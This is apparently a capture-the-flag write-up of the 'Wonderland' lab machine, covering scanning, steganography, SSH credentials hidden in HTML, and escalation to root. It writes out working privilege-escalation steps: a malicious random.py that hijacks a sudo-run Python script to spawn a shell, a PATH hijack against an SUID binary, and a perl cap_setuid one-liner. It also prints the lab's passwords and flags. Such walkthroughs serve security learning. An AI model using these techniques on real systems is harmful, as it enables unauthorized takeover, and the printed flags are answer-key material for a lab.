

# Wonderland

## NMAP

```
$ sudo nmap -sS -p- 10.10.89.221    
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 04:19 EDT
Nmap scan report for 10.10.89.221
Host is up (0.083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 150.11 seconds
```

```
$ nmap -sCV -p 80,22 10.10.89.221
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 04:23 EDT
Nmap scan report for 10.10.89.221
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds                                                                    
```

## Website

We see an pure html webpage with the picture of a rabit. the picture is a jpeg file under a img directory. in this dir there are 2 more images

### Binwalk these images

```
 binwalk images/alice.png                      

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1962 x 1942, 8-bit/color RGBA, non-interlaced
91            0x5B            Zlib compressed data, compressed

                                                                                 
┌──(kali㉿kali)-[~/Desktop/Wonderland]
└─$ binwalk images/alice.jpeg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.02
30            0x1E            TIFF image data, big-endian, offset of first image directory: 8
332           0x14C           JPEG image data, JFIF standard 1.02
12721         0x31B1          XML document, version: "1.0"
21743         0x54EF          JPEG image data, JFIF standard 1.02

                                                                                 
┌──(kali㉿kali)-[~/Desktop/Wonderland]
└─$ binwalk images/rabbit.jpeg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

```

No information here

### Stegonography decoding the images with no password

2 of the images have no info inside them,
The rabbit image has some information in it.


### Following R -> A -> B -> (...)

* R 
* A 
* B 
* B 
* I 
* T 

### Hidden message

under the rabbit page we have the hiden html paragraph

```<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>```

These are **SSH Credentials**

### SSH

```
$ ssh alice@10.10.89.221         
The authenticity of host '10.10.89.221 (10.10.89.221)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.89.221' (ED25519) to the list of known hosts.
alice@10.10.89.221's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 14 08:41:21 UTC 2023

  System load:  0.0                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 27%                IP address for eth0: 10.10.89.221
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ 
```


### The Poem

```
alice@wonderland:/home$ cat alice/walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

### Finding the user.txt

I can't find it so it's probably inside a directory my user cannot read.
```
alice@wonderland:/$ find -name "user.txt" 2>dev/null 
```

### Sudo -l

```
alice@wonderland:/$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We can only read the file, i need to find a way to write to the file to exploit it.

alice@wonderland:~$ ls -l /usr/bin/python3
lrwxrwxrwx 1 root root 9 Oct 25  2018 /usr/bin/python3 -> python3.6

maybe we need to hijack python libraries


### Linpeas output

* Sudo version 1.8.21p2                         

* Files with capabilities

```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
```
alice@wonderland:/$ ls -l /usr/bin/perl5.26.1 
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 usr/bin/perl5.26.1
alice@wonderland:/$ ls -l /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 usr/bin/perl
alice@wonderland:/$ 
```

perl can probably be used to get root, but i need to move laterally to someone else before i do that


## Python Libraries

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The walrus_and_the_carpenter.py pythons script uses the random.py library, we can maybe change this library. The pythons sys.path can be seen bellow.

```python3 -c 'import sys; print(sys.path)'```

```
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

This means that python3 path will look for the library at the path i am before going to it's normal library paths. This means we can highjack this library and run our file instead

### Testing injection 

```
alice@wonderland:~$ cat random.py 
def choice(string: str):

        return "injected"


if __name__=='__main__':
        # do nothing
        print("nothing")

alice@wonderland:~$ /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
```

It works so we can move laterally to rabbit.

```
$ cat random.py 
import pty

def choice(string: str):

        pty.spawn("/bin/bash")

        return "inject"

if __name__=='__main__':
        # do nothing
        print("nothing")
```


```

alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```


## Rabbit

```
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

there is a teaParty file with suid bit set, we can maybe reverse engineer this executable

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 14 Oct 2023 12:55:10 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

### TeaParty

```
file teaParty   
teaParty: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

```
$ objdump -d teaParty > decompile_teaParty
```

Analyzed the Assembly output with ghidra and I realised that the elf actually does literally nothing. The segmentation fault in nothing more that a print as well. very funny


Also the program is calling system executables

```
rabbit@wonderland:/$ which echo
/bin/echo
rabbit@wonderland:/$ which date
/bin/date
rabbit@wonderland:/$ ls -la /bin/date 
-rwxr-xr-x 1 root root 100568 Jan 18  2018 /bin/date
rabbit@wonderland:/$ ls -la /bin/echo 
-rwxr-xr-x 1 root root 35000 Jan 18  2018 /bin/echo
```

I cannot write to any of these but maybe I can change my path, also the program is not specifing what date file it is calling. 

We changed the path and an executable file date that will spawn a shell.

```
rabbit@wonderland:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

```

rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ export PATH=$(pwd):$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$ 

```


## Hatter

```

hatter@wonderland:/home$ cd hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ 
```

**Why Is Raven Like A Writing Desk?** ***Because it can produce a few notes, tho they are very flat; and it is never put with the wrong end in front!***


No sudo
```
hatter@wonderland:/home/hatter$ sudo -l 
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

Lets look at linpeas again.

Ohh yee we can run perl, maybe we can exploit those files with capabilities.


### Get Root 




```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# ls
linpeas.sh  password.txt
# whoami
root
# 
```

```
# cd alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# cd /root
# ls
user.txt
# cat user.txt
thm{"Curiouser and curiouser!"}
```